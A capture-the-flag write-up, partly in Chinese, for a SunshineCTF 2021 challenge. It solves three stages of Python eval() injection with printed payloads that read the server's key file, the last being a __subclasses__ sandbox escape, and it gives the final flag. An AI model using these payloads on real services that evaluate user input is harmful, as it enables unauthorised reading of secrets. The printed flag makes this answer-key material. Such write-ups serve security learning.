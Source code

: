 ## ProcrastinatorProgrammer

*I may have procrastinated security for `procrastinate.chal.2021.sunshinectf.org:65000`. I may have been watching too many Tom Cruise movies instead of releasing this... uh... last year.*

*But don't worry! The keys to the kingdom are split into three parts... you'll never find them all!*

*Flag will be given by our backend in the standard `sun{}` format, but make sure you put all the pieces together!*

---
1. Part One

  ```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!I'm super secure, and can use all python! I just use `eval()` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!

Give me an equation please!
  ```

`eval()`,使用`open('key','r').readlines()`得到flag的第一部分`sun{eval_is`

2. Part Two

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the last challenge, I've upped my ante! Now I know it's secure!I'm super secure, and can use most python math! I just use `eval(client_input, \{\}, safe_math_functions)` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {}, safe_math_functions)`,使用`__builtins__['open']('key', 'r').read()`得到flag的第二部分`_safe_`

3. Part Three

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the previous set, I had to remove math lib support! In fact the only thing this can do is add and subtract now!... I think. Google tells me that it's secure now! Well the second result anyhow.I'm super secure, and can use a bit of python math! I just use `eval(client_input, {'__builtins__':\{\}})` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {'__builtins__':{}})`,使用`[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ =="catch_warnings"][0]()._module.__builtins__['open']('key', 'r').read()`得到flag的第三部分`only_if_you_ast_whitelist_first}`

参考文章:

* [safe eval](http://lybniz2.sourceforge.net/safeeval.html)
* [python 沙箱逃逸与SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/)


**flag:**`sun{eval_is_safe_only_if_you_ast_whitelist_first}`